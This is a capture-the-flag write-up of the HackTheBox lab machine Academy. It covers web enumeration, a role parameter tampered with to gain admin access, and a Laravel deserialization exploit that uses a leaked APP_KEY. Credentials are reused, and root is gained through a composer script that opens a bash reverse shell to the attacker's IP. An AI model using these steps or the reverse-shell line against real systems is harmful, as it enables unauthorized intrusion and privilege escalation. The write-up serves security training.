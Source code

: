 ```yaml
---
title: HackTheBox - Academy Writeup
subtitle: Here's my writeup for the RETIRED machine Academy, Which is an easy Linux machine!
date: '2021-04-25'
draft: false
authors: ['elleuch']
categories: ['HackTheBox', 'Easy']
tags: ['HackThebox', 'easy']
summary: 'Here's my writeup for the RETIRED machine Academy, Which is an easy Linux machine that only require enumarations'
image: /assets/img/htb-academy/featured.jpg
---
```



# Information Gathering

## Nmap scan 

```
sudo nmap -sC -sV -T5 -oA nmap -O -A -v 10.10.10.215
```

<img src="/assets/img/htb-academy/nmap.png">

As we see we have 2 ports open <br/>
SSH on port 22 running OpenSSH 8.2p1 <br/>
http on port 80 running httpd 2.4.41 <br/>

we notice as well the academy.htb domain, which we should add to /etc/hosts.



## Gobuster scan 


```
gobuster dir -w /opt/SecLists/Discovery/Web-Content/raft-medium-files.txt -u http://academy.htb -x php
```

<img src="/assets/img/htb-academy/gob.png">


# Initial Foothold


## Identifying the exploit

So basically the first thing that tried was sql injection on <b> admin.php </b> but that didn't give me any results. as we don't have any potential users let's move on and dig further. <br/>

Let's create an account and see if we can find any usernames and intercept it with burp

```
POST /register.php HTTP/1.1
Host: academy.htb
Content-Length: 53
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://academy.htb
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/88.0.4324.146 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://academy.htb/register.php
Accept-Encoding: gzip, deflate
Accept-Language: fr-FR,fr;q=0.9,en-US;q=0.8,en;q=0.7
Cookie: PHPSESSID=sdloh07q837vauvt0oqevack4o
Connection: close
uid=elleuch&password=elleuch&confirm=elleuch&roleid=0
```
We can notice the <b>roleid</b>	parameter which is set to 0. we can assume that's assigning a role to the user we're creating. Which basically can be a normal user ( roleid=0 ) or a privileged user ( roleid=1 ).

Let's change change 0 to 1 and forward the request and create our privileged user and try to login to <b>/admin.php</b> 

<img src="/assets/img/htb-academy/planner.png">

As we see above the planner leaks to us a subdomain <b>dev-staging-01.academy.htb</b> <br/>
Let's add it to /etc/hosts and see what we get

<img src="/assets/img/htb-academy/laravel.png">

Errors! That sounds promosing! Scrolling down we can see something really interesting
```
APP_KEY	 "base64:dBLUaMuZz7Iq06XtL/Xnz/90Ejq+DEEynggqubHWFj0="
```
We have the APP_KEY! We can abuse <b>Laravel Unserialize Vulnerability CVE-2018-15133 </b> <br/>
For this exploit we'll be using this script, a pretty easy syntax.
```
https://github.com/aljavier/exploit_laravel_cve-2018-15133/blob/main/pwn_laravel.py
```

<img src="/assets/img/htb-academy/foothold.png">

And voilà we're on the box

# User Privesc

Now let's start enumarating,We already know that the webserver is running PHP Laravel. </br>
The first thing we should look at is the <b>.env</b> file. </br>

<img src="/assets/img/htb-academy/env.png">

And we get a password! <br />
`mySup3rP4s5w0rd!!` <br/>
Let's see if it belongs to any existing user

<img src="/assets/img/htb-academy/users.png">

After manually trying to switch to these users, it turns out to be cry0l1t3's password

<img src="/assets/img/htb-academy/logincry.png">

Our user is in the <b>adm</b> group! So basically we can read logs! And also we can read the audit log! We can grab some juicy informations from it

<img src="/assets/img/htb-academy/mrb3.png">

`data=6D7262336E5F41634064336D79210A`

Seems we got a password! But it's hex encoded! Let's decode it

<img src="/assets/img/htb-academy/pw.png">


`mrb3n_Ac@d3my!`

Seems like it's mrb3n's password! 

# Root Privesc

Mrb3n can execute <b>/usr/bin/composer</b> as root!

<img src="/assets/img/htb-academy/sudo.png">

Going through the docs of composer we can find out that we can execute a custom script using composer! we need to create a composer.json first in any folder we want!
```json
{ 
"scripts":{"shell":"/bin/bash -c 'bash -i >& /dev/tcp/10.10.14.111/4444 0>&1'"}
}
```

We set our listener 


```
nc -lvnp 4444 
```

And execute 

```
sudo /usr/bin/composer --working-dir=fake run-script shell
```

<img src="/assets/img/htb-academy/root.png" >


And we rooted the box! <br/>
`uid=0(root) gid=0(root) groups=0(root)`



